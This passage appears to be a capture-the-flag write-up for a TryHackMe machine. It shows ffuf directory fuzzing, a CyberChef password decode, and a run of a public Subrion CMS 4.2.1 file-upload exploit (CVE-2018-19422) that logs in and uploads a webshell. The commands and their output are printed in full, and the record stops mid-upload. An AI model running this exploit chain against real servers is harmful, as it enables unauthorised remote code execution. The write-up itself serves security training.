 Note: Also removed the `-recursion` option. There is a `/` after FUZZ. If we don't add this, the server returns a 301 with the slash added. But for the recursion option to work, the FUZZ keyword needs to be the last thing on the URL string. 

Now, let's fuzz!

```bash
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://techsupport.thm/subrion/FUZZ/ -o ffuf/raftLarge -of html -ic -c -e .txt,.html,.bak,.gz,.zip,.php,.db,.sql,.tar.gz -sf -t 50 -fc 302 

install                 [Status: 200, Size: 13125, Words: 6273, Lines: 212, Duration: 311ms]
updates                 [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 196ms]
panel.php               [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 792ms]
panel.sql               [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 792ms]
panel.bak               [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 792ms]
panel.db                [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 792ms]
panel                   [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 793ms]
panel.html              [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 793ms]
panel.zip               [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 793ms]
panel.txt               [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 793ms]
panel.gz                [Status: 200, Size: 6275, Words: 1618, Lines: 107, Duration: 794ms]

```

- http://techsupport.thm/subrion/install/install/ - Pre-installation check. Shows software versions of multiple installed software on the machine.
- http://techsupport.thm/subrion/panel/ - Login portal. The credentials we found earlier in the SMB share dont work. 

Trying to decode password in Cyberchef. 
https://gchq.github.io/CyberChef/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',false)From_Base32('A-Z2-7%3D',false)From_Base64('A-Za-z0-9%2B/%3D',true,false)

Subrion login creds
| user | pass |
| -- | -- |
| admin | CENSORED |

## Subrion Admin Portal Enum

After login.
![](attachments/Pasted%20image%2020221104194454.png)

Subrion Version 4.2.1 is installed. Searching for anything regarding this version on ExploitDB, we get https://www.exploit-db.com/exploits/49876. An arbitrary file upload exploit.

Let's try and use it.

### Uploading a reverse shell using **CVE-2018-19422**

Don't forget to add the slash after `panel` in the URL when running the exploit.

```bash
└─$ python3 49876.py -u http://techsupport.thm/subrion/panel/ --user=admin --passw=CENSORED
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://techsupport.thm/subrion/panel/
[+] Success!
[+] Got CSRF token: 7LJC4WPSmVW99qpA8XKWZZPAUDIcilg43wfRfpQi
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: ipmrjrdahkbtipn

[+] Trying to Upload Webshell..
```